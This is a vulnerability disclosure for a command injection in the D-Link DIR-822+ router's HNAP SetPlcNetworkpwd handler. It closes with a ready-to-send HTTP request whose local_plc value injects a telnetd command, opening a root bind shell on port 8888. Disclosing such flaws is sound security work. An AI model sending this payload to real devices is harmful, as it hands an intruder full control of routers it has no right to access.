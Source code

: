 ## DIR-822+ Command Injection

### Overview

* Manufacturer's address：http://www.dlink.com.cn/
* Firmware download address ：http://www.dlink.com.cn/techsupport/ProductInfo.aspx?m=DIR-822%2B

### Affected version

D-Link DIR-822+ V1.0.5 was found to contain a command injection in `SetPlcNetworkpwd` function of`prog.cgi`, which allows remote attackers to execute arbitrary commands via shell

![image-20240421163220274](./img/4.png)

### Vulnerability details

Vulnerability occurs in `/HNAP1/SetPlcNetworkpwd`. Attackers can control `v22` by setting the `local_plc`.

Split `v22` with a comma and pass the value to `v21` with a simple check, finally call ths `FCGI_popen`

![image-20240421163827190](./img/2.png)

`FCGI_popen`Called `popen` to create a pipeline to execute the command.

Based on the cause of the vulnerability, attackers can arbitrarily execute the command by setting the `local_plc`. 

### EXP

```
POST /HNAP1/ HTTP/1.1
Host: 192.168.0.1
Content-Length: 170
Accept: application/json
HNAP_AUTH: 5E736BA3725CFF7870DC7A1B6B9512E6 1703160655517
SOAPACTION: "http://purenetworks.com/HNAP1/SetPlcNetworkpwd"
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36 Edg/120.0.0.0
Content-Type: application/json
Origin: http://192.168.0.1
Referer: http://192.168.0.1
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: uid=akiKeInk; PrivateKey=880D5E30644E82353544D9496CA35B50; timeout=51
Connection: close

{"SetPlcNetworkpwd": {"local_plc":"user, `telnetd -l /bin/sh -p 8888 -b 0.0.0.0`"}}
```

![image-20240421163827190](./img/3.png)
